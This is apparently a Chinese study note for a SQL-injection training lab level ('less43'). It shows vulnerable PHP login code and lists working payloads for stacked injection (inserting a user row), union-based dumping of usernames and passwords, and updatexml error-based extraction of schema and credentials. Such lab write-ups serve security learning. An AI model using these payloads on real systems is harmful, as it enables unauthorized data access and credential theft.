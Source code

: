 ```yaml
---
title: less43
url: https://www.yuque.com/u29002979/ep2zrx/khys0ekgzsnikk0q
---
```


```bash
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];

$sql = "SELECT * FROM users WHERE username=('$username') and password=('$password')";
if (@mysqli_multi_query($con1, $sql))
```

与Less42不同的是闭合方式为') <a name="VZI6o"></a>

# 堆叠注入

`');insert into users values(98,'zhong','zhong')#`

`?id=-1') union select 1,2,(select group_concat(username,0x7e,password)from users)--+` <a name="jykDm"></a>

# 注入点检查

`login_user=admin&login_password=admin'`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin''' at line 1

<a name="Os6ES"></a>

# 报错注入

```bash
查询数据库表
-1') or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1') or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
-1') or updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) -- +
爆破字段
login_password=-1') or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```
